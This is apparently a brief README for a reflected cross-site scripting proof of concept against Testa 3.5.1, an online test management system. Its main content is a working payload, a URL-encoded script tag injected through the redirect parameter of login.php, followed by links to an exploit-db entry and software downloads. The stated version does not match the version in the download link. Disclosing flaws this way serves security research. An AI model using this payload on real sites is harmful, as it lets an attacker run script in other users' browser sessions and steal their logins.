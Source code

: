 ```diff

@@Testa 3.5.1 Online Test Management System (Cross Site Scripting)@@

+ Version: 3.5.1
- Tested on Linux/Windows
# POC (Piye om carane)
! https://localhost/login.php?redirect=%22%3E%3Cscript%3Ealert(%22evil.com%22)%3C/script%3E
```

### Software & Reference
###### [https://www.exploit-db.com/exploits/51023](https://www.exploit-db.com/exploits/51023)
###### [https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip](https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip)
###### [https://www.apachefriends.org/download.html](https://www.apachefriends.org/download.html)
